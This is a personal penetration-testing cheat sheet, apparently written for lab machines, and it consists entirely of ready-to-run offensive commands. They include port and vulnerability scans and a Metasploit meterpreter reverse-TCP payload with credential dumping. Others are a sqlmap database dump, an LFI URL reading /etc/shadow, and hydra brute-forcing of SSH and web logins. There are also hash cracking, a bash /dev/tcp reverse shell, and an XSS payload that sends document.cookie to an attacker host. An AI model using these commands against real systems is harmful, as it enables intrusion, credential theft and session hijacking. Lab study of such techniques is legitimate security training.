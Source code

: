 # Cheat Sheet

## Enumeration

sudo masscan -e tun0 -p1-65535,U:1-65535 10.10.1.109 --rate=1000 (quick open port scan)

nmap -sV -v -Pn -n -p8000,9300,22,5601,1111,9200 10.10.1.109 (then scan the ports found with masscan)

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.119.138 (enum samba shares)

nmap -sV -p- 10.10.10.10 (service scan)

nmap -A -T4 --script vuln -p- 10.10.10.10 (full scan)

nmap -sV -vv --script vuln 10.10.10.10 (vuln scan)
  
nmap -O 10.10.10.10 (operating system scan) 

nikto -host 10.10.200.161 (web scan)

enum4linux -a 10.10.26.102 | tee enum4linuxOutput.log

## Linux

cat /etc/passwd (get list of users)

sudo cat /etc/shadow (hash of password)

find / -type f -perm -o+w 2>/dev/null (find files with write permissions)

## msfconsole

db_nmap -sV BOX-IP

use shell_to_meterpreter

set payload payload/linux/x86/meterpreter/reverse_tcp

run post/multi/recon/local_exploit_suggester

load kiwi (creds_all)

***spawn shell from meterpreter***

shell

script -qc /bin/bash /dev/null 

## FTP

scp linpeas.sh jan@10.10.122.69:/dev/shm

## mysql 

mysql -h 10.10.28.115 -u(root) -p(ff912ABD*)

show databases;

use data;

select * from USERS;

## sql injection

sqlmap -u 10.10.115.80/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --batch

sqlmap -u 10.10.87.14/register.php --data "log_email=test&log_password=test&login_button=Login" --method POST -p "log_email,log_password" --level=3 --dbms=mysql 5.02 --batch -D social --columns -T users --dump

## LFI

http://10.10.58.44/get-file/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fshadow

## mountd (mount NFS drive)

/sbin/showmount -e 10.10.10.10 

sudo mkdir /mnt/thm

mount 10.10.10.10:/opt/files /mnt/thm

sudo umount -f -l thm

## gobuster

gobuster dir -u http://ip:port -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

## crack passwords

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect" (web login portal password)

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.212.195 -t 4 ssh

hydra -l sam -P /usr/share/wordlists/rockyou.txt 10.10.120.174 -t 4 -s 4567 ssh (ssh port 4567)

fcrackzip -b --method 2 -D -p /usr/share/wordlists/rockyou.txt -v ./christmaslists.zip (zip password)

hashcat -m 1800 hash /usr/share/wordlists/rockyou.txt --force (crack hash)

hashcat -m 0 hash /usr/share/wordlists/rockyou.txt --force (crack hash md5)

| hashid        | hashcat |
|---------------|---------|
| SHA-512 Crypt | 1800    |
|               |         |
|               |         |

## Encryption

pg -d note1.txt.gpg (decrypt gpg)

steghide extract -sf ./TryHackMe.jpg (stenography)

/home/kali/.local/bin/stegcracker cute-alien.jpg /usr/share/wordlists/rockyou.txt

crack zip password

```
/usr/sbin/zip2john 8702.zip > output
sudo john output
```

binwalk cutie.png

binwalk cutie.png -e (extract hidden files)

openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out file.txt (asymmetric decryption using private key) 

## cmd to start reverse shell 

bash -i >& /dev/tcp/10.9.46.252/1234 0>&1

## listen for reverse shell

netcat -lvnp 1234 (or nc)

upgrade shell
```
python -c "import pty; pty.spawn('/bin/bash')"

control+z

stty raw -echo

fg

press enter a few times

export TERM=xterm
```
## XSS 

<script> new Image().src = "http://myIP:1234/stolencookie.php?cookie="+document.cookie;</script> (payload)

ncat -lkvnp 1234 (listen to payload)

# privilege escalation using SUID

find / -user root -perm -4000 2>> /dev/null (find SUID files)

## ssh with private key

/usr/share/john/ssh2john.py key > forjohn

/usr/sbin/john forjohn --wordlist=/usr/share/wordlists/rockyou.txt

chmod 600 key

ssh -i key kay@10.10.122.69

## upload files to box

host on own computer
ls to directory

```
sudo python -m SimpleHTTPServer
```

get on box

```
wget http://10.4.9.144:8000/linpeas.sh
```
## download files from box

on own machine
```
scp james@10.10.165.113:Alien_autospy.jpg /home/kali/Downloads
```
